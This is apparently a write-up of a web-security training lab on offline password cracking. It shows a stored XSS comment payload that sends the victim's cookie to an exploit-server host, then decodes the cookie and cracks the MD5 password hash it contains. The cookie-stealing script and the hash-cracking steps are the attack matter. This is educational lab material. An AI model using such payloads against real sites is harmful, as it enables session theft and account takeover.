 # Lab: Offline password cracking

 This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
- Your credentials: wiener:peter
- Victim's username: carlos

## Solution

Based on the description above we access to any post and XSS attack at the comment.

with this payload: `<script>document.location='https://exploit-0a7c008f04215b04c0fa17a8012f006e.exploit-server.net/exploit?c='+document.cookie</script>`

![](https://i.imgur.com/xUOkqMp.png)

After post comment we access to `access log` page in `exploit server`.

![](https://i.imgur.com/teJn407.png)

We received a `stay-logged-in` cookie: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`
Decode it with base64 decode: `carlos:26323c16d5f4dabff3bb136f2460a943`

Same format as previous lab, we demonstrate that carlos's cookie.

Get the encrypted part of the cookie to decrypt with [MD5 Decrypt Online](https://md5decrypt.net/en/)

![](https://i.imgur.com/1Wfoar6.png)

We got the carlos's password: `onceuponatime`

![](https://i.imgur.com/i3y6pxE.png)

Login with carlos's credentials and delete that account to solve the lab.